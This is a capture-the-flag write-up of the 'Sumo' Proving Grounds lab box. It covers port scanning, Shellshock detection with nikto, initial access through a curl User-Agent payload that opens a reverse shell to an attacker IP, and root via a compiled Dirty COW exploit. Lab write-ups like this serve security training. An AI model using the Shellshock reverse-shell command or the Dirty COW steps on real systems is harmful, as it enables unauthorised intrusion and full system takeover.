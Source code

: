 ```yaml
---
title: "Sumo"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Shellshock,  Dirty Cow]
mermaid: true
image: ../assets/img/pg/offsec.jpeg
---
```


The exploitation of the "Sumo" box involved several critical steps. First, intelligence gathering was conducted through a port scan using the nmap tool, identifying open ports such as 22 and 80. Enumeration revealed a potential vulnerability in the `/cgi-bin` directory, specifically the Shellshock vulnerability (CVE-2014-6271). Using the nikto tool, the Shellshock vulnerability was confirmed, allowing for remote command execution. The initial access was gained by exploiting this vulnerability through a crafted User-Agent header in a curl command. During post-exploitation, a vulnerable Linux kernel version was identified, and privilege escalation was achieved by using the Dirty COW exploit, leading to root access. The process included techniques for exploiting web vulnerabilities, remote command execution, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview

```mermaid
graph TD
    A[Intelligence Gathering]
    A --> B[Port Scan > Port 22,80]
    B --> C[Enumeration: HTTP > Shellshock]
    C --> D[Exploitation > Shellshock Exploit]
    D --> E[Post-Exploitation: Privilege Escalation using Dirty COW]
    E --> F[Root Shell Access]

```

## 1. Information Gathering

### Port Scan

```bash
sudo nmap -sC -sV -p- 192.168.197.87 -T5 -v
```

Output

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeration

### Port 80

![Untitled](../assets/img/pg/Sumo/Untitled.png)

Identified the Shellshock vulnerability using the nikto tool.

```bash
nikto -h http://192.168.244.87
```

Output

```
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. 
See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. 
See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

- Review
    1. The **`cgi-bin`** directory was found to have a vulnerability called `ShellShock`.
    2. **Shellshock** allows an attacker to execute arbitrary commands remotely on the affected system by exploiting a flaw in how Bash processes environment variables. Specifically, Bash allowed an attacker to insert malicious code as part of the value of an environment variable, which was interpreted and executed by Bash without restrictions. Exploiting this vulnerability, the page can generate an error.
    3. The "cgi-bin" directory is related to Shellshock because many CGI (Common Gateway Interface) scripts are executed in this directory. Shellshock primarily affected web servers that used CGI scripts written in Bash.
    4. You can find this vulnerability by noting that you are using an old version of Apache and cgi_mod (with the cgi folder) or by using nikto.

## 3. Exploitation

Initial Access

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.248/666 0>&1' http://192.168.244.87/cgi-bin/test
```

![image.png](../assets/img/pg/Sumo/image.png)

## 4. Post-Exploitation

Kernel Vulnerability

```bash
uname -a 
```

> Linux ubuntu 3.2.0-23-generic
> 

![Untitled](../assets/img/pg/Sumo/Untitled%201.png)

Exploit suggester on the target

![Untitled](../assets/img/pg/Sumo/Untitled%202.png)

I encountered a problem

![Untitled](../assets/img/pg/Sumo/Untitled%203.png)

Export $PATH

```
PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

now, it worked perfectly

```bash
 gcc -pthread 40839.c -o dirtycow -lcrypt
 ./dirtycow
```

![Untitled](../assets/img/pg/Sumo/Untitled%204.png)

Root Access

![image.png](../assets/img/pg/Sumo/image%201.png)